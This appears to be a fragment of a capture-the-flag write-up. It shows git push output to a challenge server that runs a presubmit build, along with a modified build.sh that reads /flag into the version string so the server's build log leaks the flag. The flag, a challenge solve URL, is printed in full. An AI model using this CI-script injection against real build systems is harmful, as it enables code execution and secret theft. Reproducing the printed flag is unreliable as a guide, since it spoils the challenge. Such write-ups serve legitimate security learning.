 ```
❯ git push origin new  --push-option=presubmit
Enumerating objects: 7, done.
Counting objects: 100% (7/7), done.
Delta compression using up to 10 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (5/5), 530 bytes | 176.00 KiB/s, done.
Total 5 (delta 2), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at db8bef4
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] new -> new (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

```bash
#!/usr/bin/env bash

# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION="$(cat /flag)"
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)
```

```
❯ git push origin new  --push-option=presubmit
Enumerating objects: 19, done.
Counting objects: 100% (19/19), done.
Delta compression using up to 10 threads
Compressing objects: 100% (14/14), done.
Writing objects: 100% (15/15), 1.52 KiB | 311.00 KiB/s, done.
Total 15 (delta 8), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 574edf3 get flag take 3
remote: Building version https://h4ck1ng.google/solve/CIOnPushIsJustRCEAsAService
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] new -> new (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```